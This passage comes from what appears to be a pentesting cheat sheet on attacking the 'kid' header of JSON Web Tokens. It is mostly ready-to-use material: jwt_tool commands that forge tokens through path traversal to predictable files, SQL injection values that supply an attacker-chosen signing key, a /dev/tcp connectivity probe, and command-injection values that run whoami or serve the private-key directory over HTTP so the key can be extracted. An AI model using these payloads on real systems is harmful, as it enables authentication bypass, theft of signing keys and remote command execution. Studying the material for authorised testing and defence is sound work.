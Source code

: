 If the claim "`kid`" is used in the header, see if you can use a different file in the filesystem. Pick a file you can predict the contents of, or perhaps try `"kid":"/dev/tcp/<LHOST>/<LPORT>"` to test connectivity, or even some SSRF payloads.

{% hint style="info" %}
Use the `-T` flag of **jwt\_tool** to manipulate the JWT and change the value of the `kid` claim, then choose to keep the original signature.
{% endhint %}

```bash
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p "" # The value of kid will be null, so the password ("-p"), will be empty.
python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file" # Another example with the content of a file.
```

**Using files within the host with known content can also forge a valid JWT**. For example, on linux systems the file `/proc/sys/kernel/randomize_va_space` has the value set to **2**. So, by putting that path inside the "**kid**" parameter and using "**2**" as the symmetric password to generate the JWT you should be able to generate a new valid JWT.

#### "kid" issues - SQL Injection

In a scenario where the contents of the "**kid**" are used to retrieve the password from the database, you could change the payload inside the "kid" parameter to:

* `asd' UNION SELECT 'SECRET_KEY';-- -`
* `"kid" : "1337' union select 'SECRET_KEY' -- 1"`

... and then sign the JWT with the SECRET\_KEY secret key.

If we want to enumerate the database, we can also do that:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'asd'
SELECT * FROM users WHERE username = 'admin'-- -' AND password = 'asd' # Injection
```

#### "kid" issues - OS Injection

Scenario where the "kid" parameter contains a path to the file with the key and this path is being used within a command:

```bash
# Original:
"kid": "/root/res/keys/secret7.key"
# Modified
"kid": "/root/res/keys/secret7.key/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337 &"
# We navigate to that location to extract the private key.
```

We can also try to execute any command : `"kid" : "1" | whoami;`

## References

{% embed url="https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt" %}

{% embed url="https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb" %}

{% embed url="https://www.netsparker.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities" %}
